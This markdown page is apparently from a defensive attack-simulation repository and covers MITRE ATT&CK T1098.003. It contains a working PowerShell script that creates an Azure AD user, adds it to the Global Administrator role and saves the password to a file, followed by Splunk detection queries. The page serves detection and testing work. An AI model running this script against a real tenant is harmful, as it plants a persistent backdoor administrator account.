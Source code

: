 # Account Manipulation: Additional Cloud Roles
## About
An adversary can create an account and then add it to a privileged role such as Global Administrator. <br>
<b>Tactic</b>    : Persistence <br>
<b>Technique</b> : Account Manipulation<br>
More details here in <a href="https://attack.mitre.org/techniques/T1098/003/" target="_blank"> MITRE ATT&CK </a> . <br>
## Attack Simulation

The below script creates an account and adds the account to the Global administrator role. <br>

``` powershell
$TenantDetails = $NULL
$CurrentlyLoggedInUser = $NULL
$OnMicrosoftDomain = $NULL
$connection = $NULL
$CurrentTimestamp = [DateTime]::Now.ToString("yyyyMMdd-HHmmss")
try { 
    $AzureADSession = Get-AzureADCurrentSessionInfo
    $CurrentlyLoggedInUser = $AzureADSession.Account | select -ExpandProperty Id
    Write-Host "Already connected to : $AzureADSession.TenantDomain as $CurrentlyLoggedInUser"

} 
catch [Microsoft.Open.Azure.AD.CommonLibrary.AadNeedAuthenticationException] { 
    Write-Host "You're not connected to AzureAD. Connecting now..."; 
    $connection = Connect-AzureAD
    $AzureADSession = Get-AzureADCurrentSessionInfo
    $CurrentlyLoggedInUser = $AzureADSession.Account | select -ExpandProperty Id
    Write-Host "Connected to : $AzureADSession.TenantDomain as $CurrentlyLoggedInUser"
}
$CurrentlyLoggedInUser
$CurrentUserId = Get-AzureADUser -Filter "UserPrincipalName eq '$CurrentlyLoggedInUser'" | select -ExpandProperty ObjectId

$EmergencyUserUPNPrefix = Read-Host("Enter the name of the user you want to create or hit enter for the script to create one.")
if($EmergencyUserUPNPrefix -eq "")
{
	$EmergencyUserUPNPrefix = "TempUser_" + $CurrentTimestamp
}
$UserDisplayName = $EmergencyUserUPNPrefix 
$TenantDomain = $Connection.TenantDomain
$OnMicrosoftDomain = $CurrentlyLoggedInUser.substring($CurrentlyLoggedInUser.IndexOf('@'))
$OnMicrosoftDomain
$UserPrincipalName = $EmergencyUserUPNPrefix+$OnMicrosoftDomain

$EmUser = $NULL

try{
    $EmUser = Get-AzureADUser -ObjectId $UserPrincipalName -ErrorAction silentlycontinue
    write-output("Emergency user " + $UserPrincipalName + ' already exists.')
}catch{
    write-output("Emergency user " + $UserPrincipalName + ' does not exist. Creating now..')
    Add-Type -AssemblyName System.Web
    $UserPassword = [System.Web.Security.Membership]::GeneratePassword(32,2)
    $PasswordProfile = New-Object -TypeName Microsoft.Open.AzureAD.Model.PasswordProfile
    $PasswordProfile.Password = $UserPassword
    $UserPassword
    $NewUser = New-AzureADUser -DisplayName $UserDisplayName -PasswordProfile $PasswordProfile -AccountEnabled $true -UserPrincipalName $UserPrincipalName -MailNickName "EmUser"

    # Adding the new user to Global Admin role
    Write-output "Adding the new user to Global Admin role"
    $GlobalAdminRole = Get-AzureADDirectoryRole | Where-Object { $_.displayName -eq  "Global Administrator"} 
    Add-AzureADDirectoryRoleMember -ObjectId $GlobalAdminRole.ObjectId -RefObjectId $NewUser.ObjectId 

    # Saving the details for the app
    $temp_location = (get-location).Drive.Root+"office365_temp\"
    $temp_file = $temp_location + $CurrentTimestamp+".txt"
    New-Item $temp_location -ItemType Directory -Force | Out-Null
    New-Item $temp_file -ItemType File -Force | Out-Null
    Add-Content $temp_file ("Tenant Domain: " + $AzureADSession.TenantDomain)
    Add-Content $temp_file ("Tenant Id: " + $AzureADSession.TenantId)
    Add-Content $temp_file ("Username: " + $UserPrincipalName)
    Add-Content $temp_file ("Password: " + $UserPassword)
    .\notepad.exe $temp_file
    write-output("User details written to the file\r\n")
}
```

Azure AD user is assigned the Global Admin role as seen in the Azure portal. <br>
<img src="../../../images/o365mitre/AccountManipulationAdditionalCloudRoles-T1098-003_0.png"></img>
<br>

## Splunk Detection

### User added to the administrator role
```powershell
index=azure sourcetype="azure:aad:audit" activityDisplayName="Add member to role" result="success"
| eval AssignedRoleName = mvindex('targetResources{}.modifiedProperties{}.newValue', mvfind('targetResources{}.modifiedProperties{}.displayName', "Role\.DisplayName"))
| eval RoleWellKnownObjectName = mvindex('targetResources{}.modifiedProperties{}.newValue', mvfind('targetResources{}.modifiedProperties{}.displayName', "Role\.WellKnownObjectName"))
| search AssignedRoleName = "*Administrator*"
| rename targetResources{}.userPrincipalName as UserAddedToRole, initiatedBy.user.ipAddress as src_ip, initiatedBy.user.userPrincipalName as CreatedByUPN
| table _time UserAddedToRole, AssignedRoleName, src_ip ,CreatedByUPN,  roleWellKnownObjectName
```

### The User was created outside PIM (e.g. PowerShell)
When the user is assigned to an administrator role without using <a href="https://docs.microsoft.com/en-us/azure/active-directory/privileged-identity-management/pim-configure">Azure AD Privileged Identity Management (PIM)</a>, a corresponding Azure Ad event "RoleElevatedOutsidePimAlert" is generated and we would want to detect such an event. Any privileged role assignment should be done only through PIM. <br>

```powershell
index=azure operationType="RoleElevatedOutsidePimAlert" result="success" 
| rename targetResources{}.displayName as key_5, targetResources{}.userPrincipalName as key_6
| eval a = mvzip(key_5,key_6)
| makemv a delim=","
| eval RoleNameUserAddedto  = mvindex(a,0)
| eval UserAdded = mvindex(a,3)
| rename initiatedBy.user.displayName as CreatedByName, initiatedBy.user.userPrincipalName as CreatedByUPN
| table _time UserAdded RoleNameUserAddedto CreatedByName CreatedByUPN 
```